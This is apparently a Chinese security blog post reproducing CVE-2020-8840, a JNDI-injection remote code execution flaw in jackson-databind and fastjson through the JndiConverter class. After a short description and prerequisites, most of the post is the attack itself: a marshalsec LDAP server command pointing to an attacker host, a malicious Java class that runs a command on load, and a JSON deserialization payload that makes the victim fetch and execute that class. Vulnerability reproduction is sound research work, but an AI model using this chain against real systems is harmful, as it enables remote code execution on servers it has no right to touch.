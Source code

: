 ```yaml
---
layout:     post
title:      "JndiConverter反序列化利用链fastjson复现（CVE-2020-8840）"
subtitle:   ""
date:       2020-09-09 12:00:00
author:     "seal"
header-img: "img/post-bg-infinity.jpg"
tags:
    - 反序列化
    - 漏洞复现
typora-root-url: ../../luckseal.github.io
---
```


# 漏洞介绍

2月19日，NVD发布安全通告披露了jackson-databind由JNDI注入导致的远程代码执行漏洞（CVE-2020-8840），CVSS评分为9.8  。受影响版本的jackson-databind中由于缺少某些xbean-reflect/JNDI黑名单类，如org.apache.xbean.propertyeditor.JndiConverter，可导致攻击者使用JNDI注入的方式实现远程代码执行。



# 漏洞前提

1、使用了xbean-reflect jar 包

2、使用了反序列化库，并反序列化参数用户可控（已知影响fastjson以及jackson）

3、被攻击机可向外访问攻击机主机



# 攻击方法

## 以fastjson为例：

### 1、攻击者开启rmi或ldap

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://192.168.132.1/#Exploit" 9999
```



### 2、攻击者部署恶意攻击类

地址：`http://192.168.132.1/Exploit.class`

源码：
```
public class Exploit {
    static {
        try {
            Runtime.getRuntime().exec("calc");
        } catch (Exception e) {
            // do nothing
        }
    }
}
```



### 3、发送攻击payload
```
{
    "xxx":{
        "@type":"org.apache.xbean.propertyeditor.JndiConverter",
        "asText":"ldap://192.168.132.1:9999/Exploit",
    }
}
```

